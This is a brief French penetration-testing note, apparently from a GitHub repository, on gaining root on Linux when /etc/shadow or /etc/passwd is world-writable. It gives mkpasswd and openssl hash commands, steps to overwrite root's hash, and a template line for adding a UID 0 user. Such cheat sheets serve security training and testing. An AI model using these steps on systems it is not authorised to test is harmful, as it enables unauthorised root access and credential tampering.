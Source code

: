 Verifier si les fichiers `/etc/shadow` ou `/etc/passwd` sont accessible en écriture partout : 
`-rw-r--rw-` si c'est le cas proceder comme suite:

---
### /etc/shadow

Ce fichier contient les hachages de mot de passe utilisateur et n'est généralement lisible que par l'utilisateur root.

**Exploitation:**

- Générez un nouveau hachage de mot de passe

```sh
mkpasswd -m sha-512 [NEW_PASSWORD_HERE]
```

- Modifiez le fichier `/etc/shadow` et remplacez le hachage du mot de passe de l'utilisateur root d'origine par celui que vous venez de générer.

- Basculez vers l'utilisateur root en utilisant le nouveau mot de passe

---
### /etc/passwd
Le fichier `/etc/passwd` contient des informations sur les comptes d'utilisateurs. Il est lisible par tout le monde, mais généralement uniquement accessible en écriture par l'utilisateur root

**Exploitation:**
Ajouter un nouvel utilisateur disposant des privilèges root.
- Nous ajouterons ensuite ce mot de passe avec un nom d'utilisateur au `/etc/passwd`
- basculer vers cet utilisateur nouvellement creer

```sh
openssl passwd PASSWORD
```

```sh
openssl passwd -1 -salt SALT PASSWORD
```

Modele:
```
[NEW_USERNAME]:[NEW_PASSWORD]:0:0:root:/root:/bin/bash
```